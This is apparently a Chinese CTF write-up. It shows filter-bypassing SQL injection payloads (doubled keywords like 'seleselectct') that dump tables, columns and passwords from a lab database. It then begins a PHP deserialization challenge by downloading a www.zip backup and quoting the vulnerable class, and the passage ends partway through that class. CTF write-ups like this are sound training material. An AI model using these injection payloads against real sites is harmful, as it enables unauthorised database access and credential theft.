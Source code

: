 <img src="https://s2.loli.net/2022/12/29/xyATbkjO854Jt97.png" alt="image-20221229185632772" style="zoom:33%;" />

判断出第2、3列回显，于是依次查询数据库、表、列、数据：

```mysql
'+ununionion+seleselectct+1,group_concat(table_name),3+frfromom+infoorrmation_schema.tables+wwherehere+table_schema=database()%23 
```

<img src="https://s2.loli.net/2022/12/29/LzmWxePuX8wZkvV.png" alt="image-20221229185928408" style="zoom: 25%;" />

```mysql
'+ununionion+seleselectct+1,group_concat(column_name),3+frfromom+infoorrmation_schema.columns+wwherehere+table_name='b4bsql'%23
```

<img src="https://s2.loli.net/2022/12/29/VH2UkyOzcBFnYQE.png" alt="image-20221229185958150" style="zoom:25%;" />

```mysql
'+ununionion+seleselectct+1,group_concat(passwoorrd),3+frfromom+b4bsql%23
```

<img src="https://s2.loli.net/2022/12/29/mk7HU9L5DEZoQAw.png" alt="image-20221229190008313" style="zoom:25%;" />





## [极客大挑战 2019]PHP

![image-20221229190303654](https://s2.loli.net/2022/12/29/boSxmLu7AhtUrFf.png)

根据提示，备份网站，所以我们访问 `/www.zip` 获得 网站源码：

然后审计 class.php:

```php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
```